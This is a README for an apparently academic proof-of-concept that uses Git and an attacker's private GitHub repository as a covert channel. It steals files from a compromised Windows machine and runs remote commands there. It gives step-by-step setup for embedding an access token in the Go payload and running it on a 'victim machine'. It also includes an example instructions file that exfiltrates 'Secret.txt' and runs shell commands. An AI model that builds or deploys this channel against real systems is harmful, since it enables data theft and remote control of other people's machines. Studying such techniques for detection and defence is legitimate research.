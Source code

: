 # Git Data Exfiltration

Git is an open source command-line tool used by developers all over the world that allows them to collaborate in groups to modify repositories of code.
With it comes a suite of APIs that enable developers to easily push or pull code from any repository.
However, this also provides attackers a potential tool for the exfiltration of data as they can use Git’s built in functionality to push files to their own repository.
This repository contains a proof-of-concept that explores the use of the Git application to communicate with and exfiltrate data into an attacker's Github repository from a compromised machine.

## Setting Up the Git payload

In order for Git exfiltration to work, we need to set up our own Git repository that we will use to exfiltrate data from and communicate with the compromised host.

1. Create a private Git repository.
1. Create a fine-grained [Personal Access Token](https://docs.github.com/en/authentication/keeping-your-account-and-data-secure/creating-a-personal-access-token) to your repository with `Read and Write access to code`.
1. clone the repository with `git clone https://github.com/AY2223S1-CS5231-11/git-exfiltrate.git`
1. Modify the code in `Client.go`:
    1. Switch the `AUTH.Username` variable to your Github email.
    1. Switch the `AUTH.Password` variable to your created Github Personal Access Token.
    1. Switch the `REPOSITORY` variable to your created Github `.git` HTTPS repository url.
1. Commit a file called `instructions`.
    - You may enter commands into the `instructions` file to be executed when the payload is executed.
1. Run `go build` in the `client` directory.
1. Execute the created payload in your victim machine.

## Commands

There are two commands that can be executed in the victim machine.
1. `exfil "<path to file>"`
    - e.g. `exfil "C:\Users\Administrator\Desktop\Secret.txt"`.
1. `cmd <Windows Command Prompt Command>`
    - e.g. `cmd "dir %USERPROFILE%"`
1. Also, comments can be added with the `#` character.
    - e.g. `# This is a comment.`

Commands should be newline seperated and will be executed in sequence from top to bottom.
Your results will be stored in a new branch created by the victim machine. The branch name would be a unique machine ID that was generated by [this](https://github.com/denisbrodbeck/machineid) repository.
- Example `instructions` file:
```
# This is a comment
exfil "C:\Users\Administrator\Desktop\Secret.txt"
cmd "dir %USERPROFILE%"
```

## Results Format

Results are stored with a random string appeneded. This is to prevent results from a new exfiltration or execution from overwrting an older one.

- exfil results will be saved in chunks of `1024` bytes named `<file path><random string><part number>`.
    - The size of the chunks can be modified by changing the `FILE_SIZE` variable.
- command output will be returned as a single file named `<command executed><random string>`.


## Target Requirements

- The target machine must have `git` installed and have access to `https:\\github.com`.
- They can be running any machine but the `cmd` command would only work on Windows machines.


## Possible Improvements

### Supporting more Operating Systems

A simple check can be done for the Operating System before deciding what shell process to spawn. However, due to time limitations and the target system being Windows, the program only supports Windows commands.

### Error Handling

As this is a simple POC, there has been little error handling built in with any error possibly crashing the process. This may include errors such as the file attempting to be exfiltrated not existing. Hence, handling all errors seperately is another possible feature that can be implemented.
